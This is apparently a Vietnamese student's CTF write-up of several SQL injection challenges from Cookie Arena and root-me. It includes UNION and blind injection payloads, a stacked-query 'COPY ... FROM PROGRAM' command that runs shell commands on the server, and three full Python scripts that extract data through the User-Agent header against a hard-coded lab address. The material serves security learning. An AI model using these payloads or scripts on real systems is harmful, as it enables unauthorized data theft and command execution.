

# TASK 3.2

# II. COOKIE ARENA

### **1. Simple Blind SQL Injection**

- Thử với `admin' UNION SELECT NULL, NULL, NULL --` ⇒ Có 3 cột



- Thử `admin' UNION SELECT 'a','b','c' --` ⇒ 3 cột đều in ra string


- Thử nhập một câu lệnh lỗi thì nó báo như sau, ta suy ra CSDL là SQLite


- Đề bài đã gợi ý password nằm ở cột upw trong bảng users, nên ta sẽ brute force bằng Intruder
Câu lệnh: `admin' AND substr(upw, 1, 1) = 'a'`


⇒ Từ đó ta tìm được password gồm 13 ký tự: `y0u_4r3_4dm1n`

### **2. Baby SQL Injection to RCE**

- Thử nhập `'OR 1=1 --` vào ô đăng nhập thì không thấy báo lỗi ⇒ Lỗ hổng nằm ở đây


- Dù ta nhập gì nó cũng chỉ hiện ra 1 trong 2 thông báo mà không hiện kết quả truy vấn:


     ⇒ Boolean SQLi

- Mục đích của ta là đọc file flagXXXX.txt, mà ta còn chưa biết tên file, vậy nên ta cần tạo ra 1 bảng mới, lấy tên tất cả các file đưa vào bảng mới tạo, sau đó dùng boolean sqli để brute force từng ký tự của tên file
- Câu lệnh tạo bảng mới: `admin'; CREATE TABLE abc(aaa text);--`
- Sau đó ta đưa tất cả tên file vào trong bảng `abc` vừa tạo: `admin'; COPY abc FROM PROGRAM 'ls / -m';--` (Với `ls / -m`) để đưa tất cả tên file vào 1 dòng duy nhất
- Brute force từng chữ: `admin' OR (SELECT SUBSTRING(aaa,1,1) FROM abc LIMIT 1) = 'a'--`
Nếu ra `Welcome, admin...` thì là đúng
Ra `Invalid username or password!` thì ký tự đó sai


     ⇒ Tên file là `flagRoY9c.txt`

- Tương tự với cách trên, ta tạo 1 bảng chứa nội dung của file `flagRoY9c.txt`
    - `'; CREATE TABLE efg(sss text);--`
    - `'; COPY efg FROM PROGRAM 'cat /flagRoY9c.txt';--`
- Cuối cùng, dùng brute force để đọc lại bảng `efg`: `' OR (SELECT SUBSTRING(sss,1,1) FROM efg LIMIT 1) = 'a'--`


### 3. **Blind Logger Middleware**

- Middleware "Blind Logger": Đây là một lớp trung gian trong ứng dụng Flask, nhiệm vụ là ghi lại thông tin của mọi yêu cầu (request) gửi đến server. Những thông tin này được lưu vào bảng logger trong SQLite bằng câu lệnh SQL: 
`INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('{ip_address}', '{user_agent}', '{referer}', '{url}', '{cookie}', '{created_at}');`
- Ứng dụng có một hàm "sanitise" để loại bỏ ký tự đặc biệt khỏi đầu vào, nhằm ngăn chặn tấn công SQLi
- Gợi ý: FLAG được lưu trong bảng logger
- Vì ta có thể control được các trường `user_agent`, `referer`, `url`, `cookie`... nên có thể thử chèn payload vào các field đó. Ở đây ta sẽ chèn payload vào phần `user_agent`
- Câu truy vấn gốc:
INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at)
VALUES ('{ip_address}', '{user_agent}', '{referer}', '{url}', '{cookie}', '{created_at}')
- Giả sử ta chèn {user_agent}: `', null, null, null, null),(null,'` 
⇒ Truy vấn trở thành  `INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at)
VALUES ('{ip_address}', '{user_agent}', null, null, null, null), (null,'', '{referer}', '{url}', '{cookie}', '{created_at}');`
⇒ Server sẽ thực thi câu lệnh này một cách hợp lệ và chèn **2 hàng** vào database
- Đầu tiên, tìm kiếm tên bảng với script sau:

```python
import requests
import string 

TARGET_URL = "http://103.97.125.56:31115"
CHARSET = string.ascii_letters + string.digits + "_-!@#$%^&*(){}"
MAX_TABLE_NAME_LENGTH = 50

def build_sql_payload(table_offset, char_index, char_to_guess):
    """
    Payload này sẽ được chèn vào header User-Agent.
    """
    # Câu lệnh SQL bên trong để lấy ra một ký tự của một tên bảng
    # OFFSET {table_offset}: Bỏ qua {table_offset} bảng đầu tiên để tìm bảng tiếp theo
    # LIMIT 1: Chỉ lấy 1 kết quả 
    # substr(..., {char_index}, 1): Lấy ra 1 ký tự tại vị trí {char_index} của tên bảng đó
    get_char_query = f"substr((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET {table_offset}), {char_index}, 1)"

    #"Ký tự lấy được có bằng ký tự chúng ta đang đoán không?"
    condition = f"{get_char_query} = '{char_to_guess}'"

    # Tạo ra tín hiệu Đúng/Sai
    # CASE WHEN [điều kiện] THEN [nếu đúng] ELSE [nếu sai] END
    # - Nếu đúng (condition is TRUE), trả về số 1 (hợp lệ).
    # - Nếu sai (condition is FALSE), cố tính giá trị tuyệt đối của số nguyên âm lớn nhất,
    #   gây ra lỗi tràn số (integer overflow) trong SQLite.
    error_trigger_query = f"SELECT CASE WHEN ({condition}) THEN 1 ELSE abs(-9223372036854775808) END"

    # Cuối cùng, chúng ta gói câu lệnh gây lỗi vào trong payload INSERT ban đầu
    full_payload = f"', ({error_trigger_query}), null, null, null),(null,'"
    return full_payload

def check_character(char_to_check, table_offset, char_index):
    """
    Hàm này gửi request với một payload cụ thể và kiểm tra phản hồi của server.
    Nó trả về True nếu ký tự đoán là đúng, False nếu sai.
    """
    # Tạo payload SQL cho ký tự và vị trí hiện tại
    payload = build_sql_payload(table_offset, char_index, char_to_check)
    
    headers = {
        'User-Agent': payload
    }
    
    try:
        # Gửi yêu cầu POST lên server
        response = requests.post(TARGET_URL, headers=headers, timeout=5)
        if "Logged" in response.text:
            return True
            
    except requests.exceptions.RequestException:
        # Nếu có lỗi request (ví dụ: server trả về lỗi 500, timeout),
        return False
        
    # Trường hợp khác cũng coi như là sai
    return False

def find_table_name_by_offset(table_offset):
    """
    Hàm này tìm tên đầy đủ của một bảng tại một offset cụ thể.
    Ví dụ: offset=0 tìm bảng đầu tiên, offset=1 tìm bảng thứ hai.
    """
    print(f"\nĐang tìm kiếm tên bảng tại offset {table_offset}...")
    
    found_table_name = ""
    # Lặp qua từng vị trí ký tự trong tên bảng (từ 1 đến độ dài tối đa)
    for i in range(1, MAX_TABLE_NAME_LENGTH + 1):
        found_char_for_this_index = False
        
        # Lặp qua tất cả các ký tự có thể có để đoán
        for char in CHARSET:
            print(f"Đang thử: Offset={table_offset}, Vị trí={i}, Ký tự='{char}'", end="\r")
            
            # Kiểm tra xem ký tự này có đúng không
            if check_character(char, table_offset, i):
                # Nếu đúng, cộng ký tự vào kết quả và dừng vòng lặp đoán
                found_table_name += char
                found_char_for_this_index = True
                print(f"Tìm thấy ký tự: '{char}'. Tên bảng hiện tại: '{found_table_name}'")
                break # Thoát khỏi vòng lặp đoán (for char in CHARSET)
        
        # Nếu đã lặp qua hết bộ ký tự mà không tìm thấy ký tự nào cho vị trí này,
        # có nghĩa là tên bảng đã kết thúc.
        if not found_char_for_this_index:
            print(f"\nKhông tìm thấy thêm ký tự nào tại vị trí {i}")
            break # Thoát khỏi vòng lặp tìm ký tự (for i in range(...))
            
    return found_table_name

def main():
    print("===== Bắt đầu khai thác =====")
    
    all_found_tables = []
    
    # Chúng ta sẽ thử tìm tối đa 10 bảng
    for offset in range(10):
        table_name = find_table_name_by_offset(offset)
        
        if table_name:
            # Nếu tìm thấy tên bảng, thêm vào danh sách và tiếp tục tìm bảng tiếp theo
            print(f"\nTìm thấy tên bảng tại offset {offset}: {table_name}\n" + "="*50)
            all_found_tables.append(table_name)
        else:
            # Nếu không tìm thấy tên bảng nào tại offset này, có thể đã hết bảng để tìm
            print(f"\nKhông tìm thấy bảng nào tại offset {offset}. Dừng tìm kiếm.")
            break
            
    print("\n\nQuá trình hoàn tất. Các bảng đã được tìm thấy:")
    if all_found_tables:
        for name in all_found_tables:
            print(f" - {name}")
    else:
        print("Không tìm thấy bảng nào.")

# Chạy hàm main khi script được thực thi
if __name__ == "__main__":
    main()
```

⇒ Tìm được 2 bảng là logger và flag

- Bước 2: ta sẽ khai thác các cột của bảng flag bằng script sau:

```python
import requests
import string

TARGET_URL = "http://103.97.125.56:31115"
CHARSET = string.ascii_letters + string.digits + "_-{}()" 
MAX_LENGTH = 100 

def ask_sql_question(sql_condition):
    """
    Nó nhận một điều kiện SQL (ví dụ: "substr(version(),1,1) = '5'").
    - Nếu điều kiện ĐÚNG, server trả về "Logged" -> hàm trả về True.
    - Nếu điều kiện SAI, server gây lỗi -> hàm trả về False.
    """
    # Payload gây lỗi nếu điều kiện (sql_condition) là sai
    error_trigger_payload = f"SELECT CASE WHEN ({sql_condition}) THEN 1 ELSE abs(-9223372036854775808) END"
    # Gói payload gây lỗi vào trong câu lệnh INSERT
    full_payload = f"', ({error_trigger_payload}), null, null, null),(null,'"
    headers = {'User-Agent': full_payload}
    
    try:
        response = requests.post(TARGET_URL, headers=headers, timeout=5)
        # Nếu server không lỗi và trả về "Logged", câu hỏi của chúng ta là ĐÚNG
        return "Logged" in response.text
    except requests.exceptions.RequestException:
        # Bất kỳ lỗi nào (HTTP 500, timeout) đều có nghĩa là câu hỏi của chúng ta SAI
        return False

def dump_string_with_sql(base_query):
    """
    Hàm này sử dụng ask_sql_question để mò ra một chuỗi ký tự.
    Nó nhận vào một câu lệnh SQL cơ sở (base_query) mà sẽ trả về một chuỗi duy nhất.
    Ví dụ: "SELECT name FROM sqlite_master LIMIT 1"
    """
    result_string = ""
    print(f"Bắt đầu mò chuỗi cho query: {base_query}")

    for i in range(1, MAX_LENGTH + 1):
        found_char_for_this_index = False
        for char in CHARSET:
            print(f"Đang thử vị trí {i}, ký tự '{char}'", end="\r")

            # Xây dựng câu hỏi SQL hoàn chỉnh: "Ký tự thứ `i` của kết quả có phải là `char` không?"
            sql_condition = f"substr(({base_query}), {i}, 1) = '{char}'"
            
            if ask_sql_question(sql_condition):
                result_string += char
                found_char_for_this_index = True
                print(f"Tìm thấy ký tự: '{char}'. Chuỗi hiện tại: '{result_string}'")
                break # Tìm thấy rồi, chuyển sang vị trí tiếp theo

        # Nếu lặp hết bộ ký tự mà không tìm thấy gì, nghĩa là chuỗi đã kết thúc
        if not found_char_for_this_index:
            print(f"\nĐã mò xong. Kết quả cuối cùng: '{result_string}'")
            break
            
    return result_string

def get_column_names(table_name):
    """
    Hàm này thực hiện tác vụ cụ thể: lấy tất cả tên cột từ một bảng cho trước.
    """
    print(f"\n{'='*20} BẮT ĐẦU TÌM CÁC CỘT CỦA BẢNG '{table_name}' {'='*20}")
    
    found_columns = []
    # Thử tìm tối đa 10 cột
    for offset in range(10):
        print(f"\n--- Đang tìm cột tại offset {offset} ---")
        
        # Câu lệnh SQL để lấy tên của MỘT cột tại một offset cụ thể
        # pragma_table_info là lệnh của SQLite để xem cấu trúc bảng
        query_for_one_column = f"SELECT name FROM pragma_table_info('{table_name}') LIMIT 1 OFFSET {offset}"
        
        # Sử dụng hàm mò chuỗi đa năng để lấy tên cột
        column_name = dump_string_with_sql(query_for_one_column)
        
        if column_name:
            found_columns.append(column_name)
        else:
            # Nếu không trả về gì, nghĩa là đã hết cột để tìm
            print("\nKhông tìm thấy thêm cột nào. Đã hoàn tất.")
            break
            
    return found_columns

def main():
    table_to_inspect = 'flag'
    columns = get_column_names(table_to_inspect)
    print(f"\n\nHOÀN TẤT! Các cột tìm được trong bảng '{table_to_inspect}':")
    if columns:
        for col in columns:
            print(f" -> {col}")
    else:
        print("Không tìm thấy cột nào.")

if __name__ == "__main__":
    main()
```

⇒ Tìm được 2 cột là id và secret

- Ta sẽ khai thác cột secret bằng script sau:

```python
import requests

charset = 'abcdefghijklmnopqrstuvwxyz.0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()}{ ,'
url = "http://103.97.125.56:31115"

def find_flag(url):
    flag = ""
    for index in range(1, 100):
        found_char = False
        for c in charset:
            headers = {
                'User-Agent': f"', (SELECT CASE WHEN substr((SELECT secret FROM flag LIMIT 1), {index}, 1) = '{c}' THEN 1 ELSE abs(-9223372036854775808) END), null, null, null),(null,'"
            }
            print(f"Testing index {index}, char: {c}", end="\r")

            try:
                response = requests.post(url, headers=headers)
                response.raise_for_status()

                if "Logged" in response.text:
                    flag += c
                    found_char = True
                    print(f"\nFound char: {c}, Flag: {flag}")
                    break

            except requests.exceptions.RequestException as e:
                print(f"\nRequest Error: {e}")
                return None

        if not found_char:
            break

    return flag

flag = find_flag(url)
print("\nFlag: ", flag)
print("\nFinished!!!!!")
input("Press Enter to exit...")
```

⇒ Thành công lấy được flag: 

# III. root-me

### 1. **SQL injection - Authentication**

- Thử với 1 câu lệnh SQL bất kỳ bị lỗi, ta nhận được thông báo:


⇒ CSDL là SQLite

- Thử `admin'--` ⇒ web hiện luôn thông tin của admin, nhưng password bị để dưới dạng chấm tròn

⇒ Xem mã nguồn HTML để xem password ⇒ Xong (ko ngờ bài này dễ thế =)))))


### 2. **SQL injection - Authentication - GBK**

- GBK là gì: GBK (Guobiao Kuozhan) là một bảng mã ký tự mở rộng được sử dụng chủ yếu để biểu diễn các ký tự tiếng Trung Quốc. Nó mở rộng từ GB2312 và bao gồm cả các ký tự ASCII (ký tự tiếng Anh cơ bản)
- Trong một số trường hợp, các ứng dụng web có thể áp dụng các bộ lọc để chặn các ký tự nguy hiểm trong SQLi, chẳng hạn như dấu nháy đơn (') hoặc dấu backslash (\). Tuy nhiên, khi ứng dụng sử dụng mã hóa GBK, ta có thể lợi dụng đặc điểm của mã hóa này để "che giấu" hoặc mã hóa các ký tự độc hại, khiến bộ lọc không phát hiện được
- Ví dụ, chuỗi `%bf%27` trong GBK có thể được máy chủ hiểu là dấu nháy đơn `'`, giúp ta thoát khỏi chuỗi SQL và thực hiện lệnh độc hại
- Thử với các payload bình thường đều báo lỗi, ta thử đổi đầu vào thành array thì có lỗi:


    ⇒ username được mã hóa bằng md5, còn password được mã hóa bằng addslashes()

- P/S: làm đến đây xong mình ko làm tiếp được nữa nên bỏ dở chuyển sang bài khác, để đây sau này làm lại :))))

### 3. **SQL injection - String**

- Thử với 1 câu lệnh SQL bất kỳ bị lỗi vào thành search, ta nhận được thông báo:


⇒ CSDL là SQLite

- Thử dùng `admin' ORDER BY 2--` để kiểm tra số cột, đến ORDER BY 3 thì lỗi ⇒ Có 2 cột
- Thử với câu lệnh `admin' UNION SELECT 'a','b'` ⇒ Cả 2 cột đều là string
- Thử `' UNION SELECT name, NULL FROM sqlite_master WHERE type='table'--` để in ra tất cả các bảng:


⇒ Có 2 bảng, ta đoán bảng users chứa tài khoản và mật khẩu

- Thử `admin' UNION SELECT sql, 'a' FROM sqlite_master WHERE type='table' AND name='users'--`


⇒ Bảng users gồm 2 cột ta có thể khai thác là username và password

- Thử `admin' UNION SELECT username, password FROM users--`. Kết quả:


⇒ Thành công